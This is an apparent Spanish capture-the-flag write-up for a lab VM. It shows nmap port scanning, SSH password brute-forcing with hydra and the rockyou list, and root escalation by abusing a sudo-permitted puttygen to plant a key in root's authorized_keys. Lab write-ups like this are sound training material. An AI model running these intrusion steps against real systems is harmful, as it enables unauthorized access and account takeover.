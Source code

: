 ![](images/Pasted%20image%2020250928162924.png)

Enumeración.
------------------------
ESCANEO DE PUERTOS. 

Utilizamos nmap para escanear los puertos: 

```
nmap -p- --open -sS --min-rate 5000 -vvv 10.0.2.8
```

![](images/Pasted%20image%2020250928164941.png)

Tenemos esos dos puertos abiertos: 22 (ssh) y 80 (http).

EXPLORACIÓN.
---------------------------

Utilizaremos el siguiente comando para que nos muestre más información: 
```
nmap -sCV -p22,80 -v 10.0.2.8
```

![](images/Pasted%20image%2020250928165427.png)

Podemos ver que tenemos esas versiones. 

Vamos a ver la página web. 

![](images/Pasted%20image%2020250928165615.png)

Y miramos a ver si hay algo oculto. 
Nos encontramos con: 

![](images/Pasted%20image%2020250928165731.png)

Así que ya tenemos un usuario. 

EXPLOTACIÓN.
--------------------------

En esta fase usaremos la herramienta de hydra para realizar un ataque de fuerza bruta. 

```
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://10.0.2.8 -t 5
```

He puesto ``-t 5`` para que haga 5 combinaciones en paralelo y así sea más rápido. 

Esperamos. 

![](images/Pasted%20image%2020250928171748.png)

Ya tenemos el usuario y la contraseña. Así que ahora lo que podemos hacer es conectarnos por ssh. 

![](images/Pasted%20image%2020250928171953.png)

Y ya estaríamos. 

PRIVILEGIOS.
-----------------------

Hacemos un 
```
whoami
```

Somos usuario melanie y podemos ver el user.txt. 

Pero para ser root tenemos que hacer escalada de privilegio. 


![](images/Pasted%20image%2020250928172400.png)

Creamos una clave SSH utilizando puttygen. que es una herramienta diseñada para gestionar claves SSH en diferentes formatos.

```
puttygen -t rsa -o id_rsa -O private-openssh
```

Con la clave privada generada, el siguiente paso es crear la clave pública correspondiente y agregarla al archivo **authorized_keys** del usuario root. Esto permitirá el acceso SSH sin contraseña. 

```
sudo -u root /usr/bin/puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
```

Modificamos los permisos de escritura: 

```
chmod 600 id_rsa
```

Empleamos la clave privada para acceder al servidor como usuario **root**.

```
ssh -i id_rsa root@10.0.2.8
```

![](images/Pasted%20image%2020250928173746.png)

Y ya somos root, ahora a buscar la bandera. 



